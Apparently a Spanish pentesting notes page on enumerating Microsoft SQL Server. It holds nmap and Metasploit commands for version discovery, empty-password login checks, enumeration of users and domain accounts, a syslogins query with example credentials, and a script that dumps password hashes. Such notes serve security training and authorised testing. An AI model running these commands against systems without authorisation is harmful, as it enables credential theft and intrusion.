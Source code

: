 # MsSQL

## Enumeración de la versión

Para los sistemas windows, podemos conocer la versión mediante otro método adicional al escaneo con nmap. En este caso hacemos uso de un script:

```bash
nmap --script ms-sql-info -p 1433 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Enumeración intensa

Podemos tratar de enumerar mayor información:

```bash
nmap -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Login Anónimo

Con el siguiente script de Nmap podemos ver si se puede acceder sin necesidad de contraseña:

```bash
nmap -p 1433 --script ms-sql-empty-password 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Enumeración de los usuarios

Podemos hacer una enumeración de los usuarios con el siguiente modulo de metasploit:

```perl
msfconsole

use auxiliary/admin/mssql/mssql_enum_sql_logins

set RHOSTS 10.0.20.101

exploit
```

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

## Enumeración de grupos, cuentas de domino...

Para ello, usaremos el siguiente modulo de metasploit:

<pre class="language-perl"><code class="lang-perl">msfconsole

use auxiliary/admin/mssql/mssql_enum_domain_accounts
<strong>
</strong><strong>set RHOSTS 10.0.20.101
</strong><strong>
</strong><strong>exploit
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (99).png" alt=""><figcaption></figcaption></figure>

## Enumeración de los sysusers

Para ello, haremos uso de un script de NMAP. Para poder ejecutarlo es necesario tener acceso mediante credenciales al servicio (el login anonimo tambien es valido):

```bash
nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" 192.168.1.1 -oN output.txt

cat output.txt

```

## Enumeración de los hashes de usuarios

Para ello empleamos un script de NMAP. Para su uso es necesario tener credenciales validas:

```bash
nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=usuario,mssql.password=contraseña 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>
